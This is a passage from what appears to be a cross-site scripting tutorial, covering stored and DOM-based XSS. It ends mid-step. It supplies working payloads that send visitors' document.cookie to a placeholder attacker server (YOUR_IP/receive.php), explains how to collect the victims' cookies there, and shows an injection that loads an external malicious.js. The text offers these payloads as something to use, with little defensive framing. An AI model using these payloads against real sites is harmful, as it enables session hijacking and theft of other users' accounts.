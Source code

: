 **2. Craft the XSS payload**

In the vulnerable field, inject:

```
<script>
fetch('http://YOUR_IP.com/receive.php?cookie='+document.cookie)
</script>
```

When another user visits the page, their browser automatically **sends their cookies** to your server.

**3. Verify it works**

Open the page in another browser or incognito session and check **cookies.txt** on your server where you should see the **victim’s cookies** logged


### DOM-based XSS

This happens when a website’s JavaScript takes something from the page URL or other browser data and shows it on the page without checking it. Your script runs in the browser, and the server never sees it.

Where to test:

- URL parts after # (like page#payload)

- URL parameters (?q=payload)

- Any place the page uses innerHTML or document.write()

Example test:

```
http://example.com/page#<script>alert('DOM XSS')</script>
```


**Create a payload**

Simple alert:

```
<script>alert(1)</script>
```

Steal cookies:

```
<script>fetch('http://YOUR_IP/receive.php?c='+document.cookie)</script>
```

Load external JS:

```
<script src="http://YOUR_IP/malicious.js"></script>
```

**Inject and test**

Add it to the URL or hash:

